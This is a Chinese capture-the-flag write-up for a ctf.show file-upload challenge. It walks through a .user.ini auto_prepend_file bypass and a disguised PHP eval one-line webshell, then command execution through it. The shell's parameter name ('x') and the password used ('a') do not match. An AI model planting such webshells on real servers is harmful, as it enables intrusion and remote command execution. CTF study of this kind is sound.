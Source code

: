 ## 题目：
![[Pasted image 20240714093210.png]]

## 解答：

直接上传php文件显示文件类型不合规，尝试修改content-type上传不成功，上传php3  
后缀服务器不能解析  
尝试访问upload文件夹，发现upload文件夹有默认索引，具有index.php文件，那么可以利用.user.ini文件来进行上传

### （1）上传png文件 ，抓包修改为 .user.ini

抓包，先上传一个假图片，再修改包内容信息（配置文件）

```
文件名称：.user.ini
auto_prepend_file = 1.png
```
![[Pasted image 20240714093400.png]]

### （2）上传 1.png（一句话木马）

再次抓包，先上传一个假图片，再修改包内容信息

```
文件名：1.png
<?php
@eval($_POST['x']);
phpinfo();
?>
```

![[Pasted image 20240714093553.png]]

### （3）访问 /upload/index.php

![[Pasted image 20240714093647.png]]

### （4）由于 /upload/ 目录下所有文件自动包含 1.png

方法一：采取蚁剑连接  /upload/index.php
```
地址：http://cfb65ce0-4cc8-4a0c-a029-67ec2ea9d898.challenge.ctf.show/upload/index.php
密码：a
```

方法二：以 post 方式传递数据 a=system('ls')

